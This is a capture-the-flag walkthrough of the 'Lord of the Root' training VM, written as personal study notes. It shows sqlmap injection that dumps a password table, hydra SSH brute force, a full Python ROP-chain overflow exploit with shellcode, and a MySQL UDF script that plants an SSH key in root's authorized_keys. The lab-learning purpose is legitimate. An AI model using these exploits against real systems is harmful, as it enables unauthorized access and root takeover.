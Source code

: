 # Lord of the Root

"A box to demonstrate typical CTF strategies."

This one was easy right up to getting root on the box, which was beyond me. However, I'll document it all up plus the three strategies for root which I learned about and tested, as they represent some good learnings.

1. Scanning revealed just two ports, 22 and 1337. The latter hosted a simple static website that was lord of the rings themed.

2. Browsing to robots.txt surprisingly revealed another static page, with another image. In the source was a base64 encoded string, which when decoded gave `/978345210/profile.php`

3. On that page was a simple login form. I promptly ran `sqlmap` against it, and found the password field was injectable. Via that I ran a `--dump` and got a single table of username/passwords:

    ```
    +----+------------------+----------+
    | id | password         | username |
    +----+------------------+----------+
    | 1  | iwilltakethering | frodo    |
    | 2  | MyPreciousR00t   | smeagol  |
    | 3  | AndMySword       | aragorn  |
    | 4  | AndMyBow         | legolas  |
    | 5  | AndMyAxe         | gimli    |
    +----+------------------+----------+
    ```

4. Any of them worked on the login form, but the resulting page had nothing on it. Next step was to test it against the ssh endpoint.

5. I popped those usernames and passwords into two separate files and ran them with hydra against ssh. It popped with `smeagol:MyPreciousR00t` in a moment. I logged on and started internal enumeration.

At this point I was stuck. I found three executables, at `/SECRET/door[1-3]/file`. Running these through `gdb` revealed each took an argument, but only one would do anything with it: run it through `strcpy`. So, buffer overflow. Also, something on the machine would swap the files around every couple of minutes.

My skill with buffer overflows is non-existent. Assuming this was what I needed to skill up, I took a few days aside to learn up. However, I discovered eventually that ASLR is running on the machine, so this would require a ROP chain or something which is much more than I know how to do at the moment :( 

Eventually, totally stuck, I read some walkthroughs. Through this I learned of three ways to get root, and tested them all. I'll document them here for my learning on others.

## Method 1: ROP-chain buffer overflow

The author of this article is a genius: http://barrebas.github.io/blog/2015/10/04/lord-of-the-root/ (look at their [ksavir](https://barrebas.github.io/blog/2014/11/03/we-need-to-go-deeper-kvasir-writeup/) write-up if you want to be humbled). They document two ways, specifically via MySql and the secret doors. I ignored the first because I thought (mistakingly) I had missed `suid on mysql` or `sudo -l` which I already know how to do. I hadn't, so I'll cover the mysql solution next, but the second technique they used was rop chains.

Specifically, via removing the file to his/her own machine and using more advanced debugging tools, like GEF, they managed to find non-position independent points in the file, to jump to that and then to their shell code, and finally exploit it. The following python script, when used to emit an argument for the exploitable file, will pop a root shell:

```python
import struct
def p(x):
  return struct.pack('<L', x)

def write(what, where):
  # strcpy(dest, src)
  # use strcpy+6 otherwise the address will contain a space, messes up argv
  # second address is pop2ret
  return p(0x8048326)+p(0x804850e)+p(where)+p(what)
  
z = ""
z += "A"*171
z += write(0x804852c, 0x8049330) # ff
z += write(0x8048366, 0x8049331) # e4 jmp esp
z += p(0x8049330)
# modified /bin/ash shellcode: http://shell-storm.org/shellcode/files/shellcode-547.php
z += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68"
z += "\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24"
z += "\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd"
z += "\x80\x31\xc0\xb0\x01\xcd\x80"

print z
```

## Method 2: MySQL dumpfile

This was a new technique that I haven't seen before, and one which I will need to remember. If mysql is running as root, and can use dumpfile or outfile, but at the same time is constrained in the directories it can reach, then you can sometimes add a udf module to mysql that allows it to break out of this jail and do things like add your public ssh key to root's auth keys list.

This also came from the blog post in the previous entry. Essentially, you grab this extension: https://github.com/mysqludf/lib_mysqludf_sys, and compile it via `gcc -fPIC -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o ./lib_mysqludf_sys.so`. Then, with xxd and dump file you can load it into the local mysql installation, run a few command sql setups, then with a newfound ability to use outfile anywhere, add your public key to the root auth key list. The blog post did this all with one script:

```bash
!/bin/bash

echo "SELECT 0x" > payload
cat lib_mysqludf_sys.so |xxd -p >> payload
echo " INTO DUMPFILE '/usr/lib/mysql/plugin/udf_exploit.so'; " >> payload
echo "DROP FUNCTION IF EXISTS sys_exec; " >> payload
echo "CREATE FUNCTION sys_exec RETURNS int SONAME 'udf_exploit.so'; " >> payload
echo "SELECT '" >> payload
cat ~/.ssh/id_rsa.pub >> payload
echo "' INTO OUTFILE \"/root/.ssh/authorized_keys\"; " >> payload
echo "SELECT sys_exec(\"chmod 600 /root/.ssh/authorized_keys\"); " >> payload

cat payload | tr -d '\n' > payload2
rm payload
mv payload2 payload

mysql -h 127.0.0.1 -P 13333 -u root -pcoolwater < payload
```

Note the username and password in the above were from the ksavir writeup. In Lord of the Root they used creds from the login form of the 1337 website.

### Honourable mention - sqlmap hash dump

This writeup involved a different MySql exploit: https://alexandervoidstar.wordpress.com/2016/12/04/ctf-writeup-lord-of-the-root-1-0-1/

Specifically, they revealed something I didn't know, that sqlmap can also dump system hashes: 

``` bash
sqlmap -o -u "http://192.168.56.101:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --users --passwords
method=POST --level=3 --threads=10 --dbms=MySQL --dump
```

This will get in addition to the passwords above, the system user and hashes for the machine, which can then potentially be cracked. It would allow access along, but might have allowed `su` on the box maybe.

## Method 3: Ubuntu exploit

This was the simplest. I didn't get it because I usually disdain Linux version exploits. They just feel...cheap. It was pointed out in the blog post from the previous article. Anyway, `uname -a` reveals this is Ubuntu 14 running a 3.something kernel. And searching exploit-db eventually reveals: https://www.exploit-db.com/exploits/39166

Downloading the raw c code, compiling it (no special flags required) and running it pops a root shell. Easy.